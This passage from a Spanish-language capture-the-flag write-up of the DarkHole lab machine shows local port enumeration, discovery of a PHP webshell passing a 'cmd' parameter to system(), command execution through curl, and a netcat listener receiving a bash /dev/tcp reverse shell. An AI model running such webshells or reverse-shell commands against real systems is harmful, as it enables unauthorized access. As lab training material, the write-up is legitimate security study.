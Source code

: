 ```bash
jehad@darkhole:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:9999          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 192.168.18.98:22        192.168.18.37:48104     ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
```

Los puertos `33060` y el `3306` en principio no nos interesan porque se suelen utilizar para bases de datos. Nos llama la atenciónel `9999`, puerto que mediante nmap no pudimos enumerar. Vamos a enumerarlo.

```bash
jehad@darkhole:~$ ps -faux | grep 9999
losy        1270  0.0  0.0   2608   536 ?        Ss   12:52   0:00      \_ /bin/sh -c  cd /opt/web && php -S localhost:9999
losy        1272  0.0  0.4 193672 19096 ?        S    12:52   0:00          \_ php -S localhost:9999
jehad      42578  0.0  0.0   6300   672 pts/0    S+   16:22   0:00              \_ grep --color=auto 9999
```

Listando los procesos activos y filtrando por el puerto 9999 encontramos que el usuario `losy` está ejecutando un servicio php en el directorio `/opt/web`.

Listando su contenido encontramos el siguiente _index.php_:

```php
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}
?>
```

Al parecer es una [web shell](https://keepcoding.io/blog/que-es-una-webshell/) así que intentamos realizar una petición.

```bash
jehad@darkhole:~$ curl -X GET http://localhost:9999?cmd=id;echo
Parameter GET['cmd']uid=1002(losy) gid=1002(losy) groups=1002(losy)
uid=1002(losy) gid=1002(losy) groups=1002(losy)
```

Al parecer si que funciona así que, nos ponemos en escucha mediante netcat e intentamos entablar una reverse shell.

```bash
nc -lvnp 443 # Atacante

curl -X GET http://localhost:9999 -G --data-urlencode 'cmd=bash -c "bash -i &> /dev/tcp/192.168.18.37/443 0>&1"' # Víctima
```
